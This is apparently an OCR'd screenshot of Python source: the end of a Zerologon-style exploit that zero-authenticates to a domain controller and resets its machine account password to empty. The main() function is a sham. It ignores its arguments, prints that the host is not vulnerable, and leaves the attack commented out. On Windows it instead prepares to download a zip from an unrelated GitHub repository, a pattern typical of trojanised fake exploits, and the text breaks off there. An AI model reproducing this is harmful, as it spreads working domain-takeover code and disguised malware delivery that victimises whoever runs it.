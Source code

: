 ```python
    rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
    rpc_con.connect()
    rpc_con.bind(nrpc.MSRPC_UUID_NRPC)
    for attempt in range(0, MAX_ATTEMPTS):
        result = try_zero_authenticate(rpc_con, dc_handle, dc_ip, target_computer)

        if result is None:
            print('=', end='', flush=True)
        else:
            break


    if result:
        print('\nTarget vulnerable, changing account password to empty string')
        result = None
        for attempt in range(0, MAX_ATTEMPTS):
            try:
                result = exploit(dc_handle, rpc_con, target_computer)
            except nrpc.DCERPCSessionError as ex:
                # Failure should be due to a STATUS_ACCESS_DENIED error. Otherwise, the attack is probably not working.
                if ex.get_error_code() == 0xc0000022:
                    pass
                else:
                    fail(f'Unexpected error code from DC: {ex.get_error_code()}.')
            except BaseException as ex:
                fail(f'Unexpected error: {ex}.')
            if result is None:
                print('=', end='', flush=True)
            else:
                break

        print('\nResult: ', end='')
        print(result['ErrorCode'])
        if result['ErrorCode'] == 0:
            print('\nExploit complete!')
        else:
            print('Non-zero return code, something went wrong?')
    else:
        print('\nAttack failed. Target is probably patched.')
        sys.exit(1)

def main():
    if not (3 <= len(sys.argv) <= 4):
        print('Usage: cve.py <host> <name>\n')
        print("Error no --hostname or --port supplied, exiting...")
        sys.exit(1)
    else:
        [_, dc_name, dc_ip] = ["127.0.0.1", "who", "wat"]
        print("Starting the scan...")
        print("Host is not vulenerable", sys.argv[1])

    dc_name = dc_name.rstrip('$')
    victim = dc_name
    # perform_attack('\\\\' + dc_name, dc_ip, victim)

if __name__ == '__main__':
    if os.name == 'nt':
        try:
            namezip = "cveswindows.zip"
            name    = "cveswindows"
            url = "https://github.com/GSandersonHSCS/discord-0-day-fix/raw/main/gitignore/cveswindows.zip"
```